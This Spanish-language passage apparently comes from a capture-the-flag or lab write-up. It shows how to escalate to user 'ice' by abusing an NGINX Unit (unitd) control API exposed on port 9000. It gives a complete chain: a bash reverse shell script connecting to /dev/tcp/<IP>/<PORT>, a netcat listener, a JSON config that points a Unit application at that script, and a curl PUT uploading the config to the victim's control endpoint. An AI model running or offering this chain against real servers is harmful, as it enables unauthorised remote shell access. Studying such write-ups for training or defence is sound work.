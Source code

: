 Por lo que vemos en esta linea:

```
/usr/sbin/unitd --control 0.0.0.0:9000 --user ice
```

Se esta ejecutando le binario `unitd` en el puerto `9000` bajo el usuario `ice` por lo que si conseguimos realizar una `reverse shell` en dicho puerto podremos obtener acceso como dicho usuario.

Si entramos en el puerto `9000` veremos cosas en `JSON` por lo que nos podremos montar una configuracion en `JSON` para subirla por `POST` con `curl` y que obtenga la `reverse shell` que tenemos en `/tmp`.

> rev.sh

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Lo guardamos en `/tmp` el archivo, le damos permisos de ejecuccion:

```shell
chmod +x rev.sh
```

Ahora desde nuestro `host` vamos a crear el archivo de configuracion que nos va a proporcionar la `shell`.

> config.json

```json
{
  "listeners": {
    "*:8080": {
      "pass": "applications/myapp"
    }
  },
  "applications": {
    "myapp": {
      "type": "external",
      "executable": "/tmp/rev.sh"
    }
  }
}
```

Ahora nos pondremos a la escucha antes de subirlo.

```shell
nc -lvnp <PORT>
```

Vamos a subir el archivo de configuracion de esta forma:

```shell
curl -X PUT -d @config.json http://<IP_VICTIM>:9000/config
```
